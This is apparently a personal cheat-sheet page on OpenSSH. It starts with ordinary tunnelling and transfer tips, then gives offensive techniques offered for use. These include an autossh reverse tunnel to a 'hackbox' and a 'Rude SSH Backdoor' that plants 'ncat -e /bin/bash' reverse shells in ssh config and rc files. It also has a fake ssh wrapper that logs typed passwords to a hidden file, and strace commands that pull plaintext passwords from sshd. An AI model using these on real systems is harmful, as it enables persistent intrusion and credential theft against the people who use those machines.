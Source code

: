 <!-- TITLE: Openssh -->
<!-- SUBTITLE: A quick summary of Openssh -->

# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
#cat ~/ssh/config

Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &

```

```
# cat ~/.ssh/rc
ncat -e /bin/bash <MYIP> 4141 &
```

# Rude password grabber
```
# cat /usr/local/bin/ssh

#!/bin/bash
read -esp "${1}'s password: " password
echo "$1 - $password" >> /tmp/.creds
echo
 /usr/bin/ssh $@
 
```

# Pull passwords out of ssh
ps --ppid 1 | grep sshd
strace -f -p 641 -e read |& grep -F "\f\0\0\0"

[pid 2235] read(6, "\f\0\0\0\10secret", 10) = 10
